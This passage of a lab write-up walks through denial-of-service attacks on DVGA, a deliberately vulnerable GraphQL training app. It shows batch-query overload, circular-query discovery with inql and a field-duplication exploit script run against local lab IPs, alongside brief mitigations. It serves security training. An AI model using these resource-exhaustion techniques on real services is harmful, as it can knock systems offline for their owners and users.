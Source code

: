 this shows that batch queries are enabled 
```json
[{"data":{"systemHealth":"System Load: 0.00\n"}},{"data":{"systemHealth":"System Load: 0.00\n"}}]
```

Now you can send 100 queries and overload the system

### 2 - Deep recursion query attack

![](https://flowhero.github.io/assets/images/ava-2 - Copy.png)

`PasteObject` and `OwnerObject` cross reference each other so let’s use that.

**Automatically** detect circular relationships in the schema:

```python
inql -t http://127.0.0.1:5013/graphql --generate-cycles -o dvga_cycles
```

This confirms what we found in GraphQL Voyager: 
```bash
cat /tmp/dvga_cycles/127.0.0.1:5013

Cycles(
        { OwnerObject -[paste]-> PasteObject -[owner]-> OwnerObject }
        { OwnerObject -[pastes]-> PasteObject -[owner]-> OwnerObject }
)

```

We can then exhaust system ressources using [Unsafe Circular Query](https://github.com/dolevf/Black-Hat-GraphQL/blob/master/ch05/unsafe-circular-query.graphql) 


>Solution : the developper must set a value for `maxQueryDepth`, determines how many query we can send in one request. For instance we can set `maxQueryDepth`: 5



### 3 - Field Duplucation Attack

![image](https://flowhero.github.io/assets/images/shemas/2023_07_29_011345.png)


```python
python3 /home/hero/tools/graphql-tools/Black-Hat-GraphQL/ch05/exploit_threaded_field_dup.py http://192.168.1.26:5013/graphql
```

This makes the app unresponsive. You can interrup the script with `CTRL-C` to get your shell back. And you will also need to restart DVGA on your target VM.

```ad-check
title: Solution
with **cost analysis** , this attack will not be as easy to carry out 

```

### 4 - Aliases Based attack 
